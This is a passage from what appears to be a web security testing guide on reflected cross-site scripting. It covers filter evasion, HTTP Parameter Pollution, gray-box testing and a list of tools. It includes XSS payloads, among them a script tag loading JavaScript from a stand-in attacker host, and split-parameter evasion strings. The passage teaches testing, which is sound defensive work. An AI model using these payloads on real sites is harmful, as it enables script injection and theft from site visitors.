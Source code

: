```text
http://example/?var=<SCRIPT%20a=">"%20SRC="http://attacker/xss.js"></SCRIPT>
```

This will exploit the reflected cross site scripting vulnerability shown before, executing the JavaScript code stored on the attacker's web server as if it was originating from the victim web site, `http://example/`.

#### Example 7: HTTP Parameter Pollution (HPP)

Another method to bypass filters is the HTTP Parameter Pollution, this technique was first presented by Stefano di Paola and Luca Carettoni in 2009 at the OWASP Poland conference. See the [Testing for HTTP Parameter pollution](04-Testing_for_HTTP_Parameter_Pollution.md) for more information. This evasion technique consists of splitting an attack vector between multiple parameters that have the same name. The manipulation of the value of each parameter depends on how each web technology is parsing these parameters, so this type of evasion is not always possible. If the tested environment concatenates the values of all parameters with the same name, then an attacker could use this technique in order to bypass pattern- based security mechanisms.
Regular attack:

```text
http://example/page.php?param=<script>[...]</script>
```

Attack using HPP:

```text
http://example/page.php?param=<script&param=>[...]</&param=script>
```

See the [XSS Filter Evasion Cheat Sheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet) for a more detailed list of filter evasion techniques. Finally, analyzing answers can get complex. A simple way to do this is to use code that pops up a dialog, as in our example. This typically indicates that an attacker could execute arbitrary JavaScript of his choice in the visitors' browsers.

### Gray-Box Testing

Gray-box testing is similar to black-box testing. In gray-box testing, the pen-tester has partial knowledge of the application. In this case, information regarding user input, input validation controls, and how the user input is rendered back to the user might be known by the pen-tester.

If source code is available (white-box testing), all variables received from users should be analyzed. Moreover the tester should analyze any sanitization procedures implemented to decide if these can be circumvented.

## Tools

- [PHP Charset Encoder(PCE)](https://cybersecurity.wtf/encoder/) helps you encode arbitrary texts to and from 65 kinds of character sets that you can use in your customized payloads.
- [Hackvertor](https://hackvertor.co.uk/public) is an online tool which allows many types of encoding and obfuscation of JavaScript (or any string input).
- [XSS-Proxy](http://xss-proxy.sourceforge.net/) is an advanced Cross-Site-Scripting (XSS) attack tool.
- [ratproxy](https://code.google.com/archive/p/ratproxy/) is a semi-automated, largely passive web application security audit tool, optimized for an accurate and sensitive detection, and automatic annotation, of potential problems and security-relevant design patterns based on the observation of existing, user-initiated traffic in complex web 2.0 environments.
- [Burp Proxy](https://portswigger.net/burp/) is an interactive HTTP/S proxy server for attacking and testing web applications.
- [OWASP Zed Attack Proxy (ZAP)](https://www.zaproxy.org) is an interactive HTTP/S proxy server for attacking and testing web applications with a built-in scanner.
